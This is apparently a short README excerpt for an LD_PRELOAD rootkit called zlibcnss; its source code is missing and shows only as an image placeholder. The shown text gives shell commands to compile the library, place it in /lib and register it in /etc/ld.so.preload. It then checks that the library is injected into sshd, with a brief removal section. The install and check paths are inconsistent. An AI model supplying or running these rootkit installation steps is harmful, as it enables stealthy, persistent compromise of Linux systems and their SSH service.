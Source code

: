 


Compile and install:
```bash
 gcc zlibcnss.c -o zlibcnss.so -fPIC -shared -ldl -D_GNU_SOURCE
 cp zlibcnss.so /lib/
 echo "/lib/zlibcnss.so" > /etc/ld.so.preload
```


## Remove rootkit
Delete `/etc/ld.so.preload` and delete the maliciuos library. 
Nothing else needed.
```bash
rm /etc/ld.so.preload
rm /lib/zlibcnss.so
rm /lib/x86_64-linux-gnu/zlibcnss.so
```

write function hijack 需要优化

### Verify installation
```bash
ldd /usr/sbin/sshd
	linux-vdso.so.1 (0x00007ffe9214c000)
	/lib/x86_64-linux-gnu/zlibcnss.so (0x00007f17ed354000)
    [...]
```
Also check /etc/ld.so.preload for your entry.
```bash
cat /etc/ld.so.preload 
/lib/x86_64-linux-gnu/zlibcnss.so
```

